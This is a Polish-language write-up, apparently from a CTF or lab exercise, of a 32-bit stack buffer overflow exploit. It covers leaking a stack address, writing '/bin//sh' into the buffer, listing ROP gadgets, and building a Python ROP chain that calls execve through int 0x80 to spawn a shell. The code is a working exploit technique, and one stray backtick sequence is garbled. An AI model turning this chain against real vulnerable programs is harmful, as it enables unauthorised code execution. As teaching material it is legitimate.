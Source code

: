 W tym przypadku wartość `/bin//sh` zapisuję na stosie, a dokładnie w bufforze w którym występuje BOF. Adres bufora uzyskuję poprzez lekowania wartość ze stosu - druga wartośc wypisana ze stosu okazuje się być wskaźnikiem na pewne miejsce na stosie. Po odnalezieniu tego miejsca w `gdb` odjałem odpowiednią wartość, czyli `0xd4` co pozowliło uzyskać odpowiedni adres.

Gadgety które odnalazłem w tym  przypadku służą jedynie do ustawienia odpowiednich rejestrów, a mianowicie `exc`, `ebx` oraz `eax`.

```python=
0x0006a883 : add al, 0x8b ; inc eax ; pop eax ; ret
0x0001fc5e : pop edx ; pop ebx ; pop esi ; ret
0x0000301e : pop ebx ; ret 
0x0001de41 : pop ecx ; add al, 0xf6 ; ret
0x00004862 : int 0x80
```




Aby wykorzystać te gadgety stworzyłem odpowiednie funkcje. W tym przypadku należy jednak dodać odpowiedni offset, który pozwoli odwołąć się do rzeczywistych adresów instrukcji w pamieci aplikacji.

```python=
def set_eax(eax):
    return p32(offset + 0x0006a883) + p32(eax)

def set_edx_ebx(edx, ebx):
    return p32(offset + 0x0001fc5e) + p32(edx) + p32(ebx) + p32(0xfadeface)

def set_ebx(val):
    return p32(offset + 0x0000301e) + p32(val)

def set_ecx(val):
    return p32(offset + 0x0001de41) + p32(val)

def int80():
    return p32(offset + 0x00004862)
```




Kolejnym etapem było stworzenie shellcodu. Składa się on z odpowiedniego paddingu, w którego w skład wchodzi argument `\bin\\sh` zakończony null bytem oraz odpowiednich instrukcji ustawiające odpowiednie rejestry.

```python=
shellcode = b''.join([
    p32(u32('/bin')),
    p32(u32('//sh')),
    p32(0),
    b"A" * (padding_len - 4 * 3),
    set_ecx(0x0),
    set_eax(0xb),
    set_edx_ebx(0x0, buffor),
    ``int80()
])
```
